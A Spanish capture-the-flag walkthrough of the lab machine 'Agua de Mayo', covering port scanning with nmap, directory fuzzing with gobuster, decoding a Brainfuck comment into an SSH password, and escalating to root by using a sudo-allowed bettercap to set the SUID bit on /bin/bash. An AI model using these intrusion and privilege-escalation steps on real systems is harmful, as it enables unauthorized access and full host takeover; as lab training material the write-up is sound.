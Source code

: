 # Agua de Mayo
![image](https://github.com/user-attachments/assets/d4ee9a17-fcbe-41a2-ae97-464c3736755e)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sSCV -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sSCV`: Realiza un escaneo SYN, de versiones y vulnerabilidades.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
![image](https://github.com/user-attachments/assets/ed50cfd3-edc0-44cd-82a7-3674d6df2be8)

En la página principal vemos la página por defecto de Apache, por lo que vamos a hacer fuzzing con **gobuster**. Aunque si miramos el código fuente de la página y bajamos hata el final nos encontramos con un comentario.

```
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```
Es un mensaje codificado en **brainfuck** y si vamos a [dcode](https://www.dcode.fr/brainfuck-language) podremos descifraslo fácilmente.

![image](https://github.com/user-attachments/assets/1c963813-2e64-4947-a5dd-0f45f7dd3808)

Una vez tenemos una posible contraseña, miramos el resultado del fuzzin a ver si encontramos algo.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
![image](https://github.com/user-attachments/assets/1a88b909-9812-4fad-934e-9e35d10cdd50)

Encontramos el directorio **/images** y dentro de él una imagen llamada **agua_ssh.jpg**.

![image](https://github.com/user-attachments/assets/3ffae8f6-13dc-46e5-803c-42efaec93eb3)

Después de buscar si encontramos algo dentro de la imágen, vemos que no hay nada pero que el nombre podría indicarnos un que el usuario de **ssh** sea **agua**. Lo comprobamos con la contraseña y estamos dentro de la máquina.

## Explotación.

```bash
ssh agua@172.17.0.2
```
![image](https://github.com/user-attachments/assets/6044a823-212c-427f-a4af-06b2cc4b3c32)

## Escalada de privilegios.

Comprobamos si hay algún archivo que podamos utilizar con permisos de root.
```bash
sudo -l
```
Vemos que podemos ejecutar **/usr/bin/bettercap** como **root**. Lo ejecutamos y encontramos en la ayuda que podemos ejecutar un comando.

![image](https://github.com/user-attachments/assets/dd3cf928-7197-4a20-85d2-9452b10ad972)

Aprovechamos para cambiar los permisos a la **bash** y así ejecutarla como privilegios.

```bash
! chmod u+s /bin/bash
```
Salimos, y ejecutamos el siguiente comando para optener la bash como **root**.

```bash
/bin/bash -p
```
![image](https://github.com/user-attachments/assets/e42da890-b5cf-497b-aa4c-70011c2c296e)





